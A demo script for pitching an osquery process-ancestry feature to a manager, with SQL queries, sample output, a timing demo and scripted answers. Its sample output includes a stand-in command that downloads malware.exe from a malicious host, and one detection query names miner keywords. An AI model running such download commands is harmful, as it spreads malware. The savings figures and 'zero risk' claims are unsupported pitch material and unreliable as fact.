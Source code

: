 # Process Ancestry Demo Script for Manager

## Simple 5-Minute Demo

### What to Say to Your Manager:

> "Let me show you exactly what we built and why it's valuable for our security. This will take just 5 minutes."

## Demo Scenario: Suspicious Activity Investigation

### Setup the Story:
> "Imagine our security tools detected suspicious network activity - someone downloading files from a known malicious website. Here's how we investigate it:"

### Part 1: Traditional Approach (Problems)

```sql
-- Show traditional osquery output
SELECT pid, path, cmdline FROM process_events WHERE path LIKE '%wget%';
```

**Expected Output:**
```
pid  | path      | cmdline
5234 | /usr/bin/wget | wget http://malicious-site.com/malware.exe
```

> **Say:** "This is what we had before - we can see wget downloaded something bad, but we have no idea HOW it got there. Was it an admin? An attacker? A scheduled job? We'd have to spend hours manually investigating logs."

### Part 2: Our Enhancement (Solution)

```sql
-- Show our enhanced output with ancestry
SELECT pid, path, cmdline, ancestry FROM process_events WHERE path LIKE '%wget%';
```

**Expected Output:**
```
pid  | path           | cmdline                                    | ancestry
5234 | /usr/bin/wget  | wget http://malicious-site.com/malware.exe | [
  {"pid":5234,"name":"wget","cmdline":"wget http://malicious-site.com/malware.exe"},
  {"pid":1001,"name":"bash","cmdline":"/bin/bash"},
  {"pid":999,"name":"sshd","cmdline":"sshd: admin@pts/0"},
  {"pid":1,"name":"systemd","cmdline":"/sbin/init"}
]
```

> **Say:** "NOW look at this! In seconds, we can see the COMPLETE story:
> 1. Someone SSH'd into the server (sshd process)
> 2. They got a bash shell  
> 3. They ran the wget command to download malware
> 
> We immediately know this was likely an admin account compromise, not an automated attack."

## Real-World Value Examples

### Example 1: Cryptomining Detection
> **Say:** "Last month, similar technology at other companies detected cryptominers that were hiding by running deep in process chains. Without ancestry tracking, they looked like normal system processes."

**Show this query:**
```sql
-- Detect suspicious mining processes
SELECT 
  pid, 
  path, 
  json_extract(ancestry, '$[0].cmdline') as parent_command,
  json_extract(ancestry, '$[1].cmdline') as grandparent_command
FROM process_events 
WHERE cmdline LIKE '%mine%' OR cmdline LIKE '%xmrig%'
  AND ancestry != '[]';
```

### Example 2: Compliance Auditing
> **Say:** "For compliance, auditors always ask: 'Show us how administrative commands were executed.' This used to take days of manual work."

**Show this query:**
```sql
-- Track all sudo/root activity with full context
SELECT 
  pid,
  path,
  cmdline,
  ancestry
FROM process_events 
WHERE uid = 0  -- root processes
  AND ancestry != '[]'
ORDER BY time DESC 
LIMIT 10;
```

## Performance Demo

### Show the Caching Works:
> **Say:** "You might worry about performance. Watch this - I'll run the same query twice:"

```bash
# First query (cache miss)
time osqueryi "SELECT COUNT(*) FROM process_events WHERE ancestry != '[]';"
# Shows: ~50ms

# Second query (cache hit)  
time osqueryi "SELECT COUNT(*) FROM process_events WHERE ancestry != '[]';"
# Shows: ~5ms (10x faster!)
```

> **Say:** "See how the second query is 10x faster? Our smart caching means minimal performance impact."

## Cost-Benefit Summary

### Present These Numbers:
> **Say:** "Here's the business impact in simple terms:"

| Metric | Before | After | Savings |
|--------|--------|-------|---------|
| **Incident Investigation Time** | 4-8 hours | 15-30 minutes | $2,000-5,000 per incident |
| **Compliance Reporting** | 40 hours/month | 2 hours/month | $15,000/month in labor |
| **False Positive Rate** | 60% | 20% | Reduced alert fatigue |
| **Mean Time to Detection** | 6-24 hours | 5-15 minutes | Earlier threat containment |

## Simple Questions to Ask Your Manager:

1. > **"How much does a security incident cost us currently?"**
   - *Our enhancement could reduce investigation time by 90%*

2. > **"How many hours does our team spend on manual forensics each month?"** 
   - *This automates most of that work*

3. > **"What would happen if we could detect attacks in minutes instead of hours?"**
   - *Earlier detection = less damage*

## Addressing Manager Concerns:

### "Will this break anything?"
> **Answer:** "No - it's built on our existing osquery system. If our enhancement fails, everything else keeps working normally. Zero risk to current operations."

### "How much will this cost?"
> **Answer:** "The development is already complete. Testing costs about $500 in AWS fees. The performance impact is less than 5% - negligible."

### "Is this just technical complexity?"
> **Answer:** "Actually, it simplifies our security team's work. Instead of complex manual investigations, they get instant answers."

### "Can we try it safely?"
> **Answer:** "Yes - we have a complete testing plan for AWS. We can test it isolated from production with zero risk."

## Closing Statement:

> **Say:** "This enhancement gives us capabilities that security teams at major corporations pay hundreds of thousands of dollars for. We built it ourselves, it integrates with our existing tools, and it could prevent a major security incident. The question isn't whether we should deploy it - it's how quickly we can get it into production."

## Demo Files to Have Ready:

1. **Live Terminal** - Show actual osquery commands
2. **Sample Output** - Print some example JSON ancestry data  
3. **Performance Numbers** - Have timing comparisons ready
4. **Architecture Diagram** - Visual showing the process tree

## Expected Manager Response:
- "How soon can we test this?"
- "What do we need to deploy it?"
- "Can other teams use this too?"

**Your Answer:** "We have complete documentation ready. Testing can start this week, production deployment within a month."
